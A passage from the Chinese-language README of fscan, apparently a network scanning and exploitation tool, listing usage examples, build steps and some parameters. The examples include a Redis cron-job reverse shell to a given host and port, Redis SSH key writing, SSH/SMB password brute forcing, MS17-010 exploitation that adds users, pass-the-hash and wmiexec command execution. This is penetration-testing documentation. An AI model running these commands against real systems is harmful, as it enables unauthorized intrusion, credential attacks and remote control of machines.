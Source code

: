 - 文件保存



## 3.使用说明

简单用法

```
fscan.exe -h 192.168.1.1/24  (默认使用全部模块)
fscan.exe -h 192.168.1.1/16  (B段扫描)
```



其他用法

```
fscan.exe -h 192.168.1.1/24 -np -no -nopoc(跳过存活检测 、不保存文件、跳过web poc扫描)
fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写公钥)
fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)
fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)
fscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)
fscan.exe -h 192.168.1.1/24 -o /tmp/1.txt (指定扫描结果保存路径,默认保存在当前路径) 
fscan.exe -h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )
fscan.exe -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)
fscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)
fscan.exe -hf ip.txt  (以文件导入)
fscan.exe -u http://baidu.com -proxy 8080 (扫描单个url,并设置http代理 http://127.0.0.1:8080)
fscan.exe -h 192.168.1.1/24 -nobr -nopoc (不进行爆破,不扫Web poc,以减少流量)
fscan.exe -h 192.168.1.1/24 -pa 3389 (在原基础上,加入3389->rdp扫描)
fscan.exe -h 192.168.1.1/24 -socks5 127.0.0.1:1080 (只支持简单tcp功能的代理,部分功能的库不支持设置代理)
fscan.exe -h 192.168.1.1/24 -m ms17010 -sc add (内置添加用户等功能,只适用于备选工具,更推荐其他ms17010的专项利用工具)
fscan.exe -h 192.168.1.1/24 -m smb2 -user admin -hash xxxxx (pth hash碰撞,xxxx:ntlmhash,如32ed87bdb5fdc5e9cba88547376818d4)
fscan.exe -h 192.168.1.1/24 -m wmiexec -user admin -pwd password -c xxxxx (wmiexec无回显命令执行)
```



编译命令

```
go build -ldflags="-s -w " -trimpath main.go
upx -9 fscan.exe (可选,压缩体积)
```



arch用户安装
`yay -S fscan-git  或者 paru -S fscan-git`

完整参数

```shell
  -c string
        ssh命令执行
  -cookie string
        设置cookie
  -debug int
        多久没响应,就打印当前进度(default 60)
  -domain string
        smb爆破模块时,设置域名
  -h string
        目标ip: 192.168.11.11 | 192.168.11.11-255 | 192.168.11.11,192.168.11.12
  -hf string
        读取文件中的目标
  -hn string
        扫描时,要跳过的ip: -hn 192.168.1.1/24
  -m string
        设置扫描模式: -m ssh (default "all")
```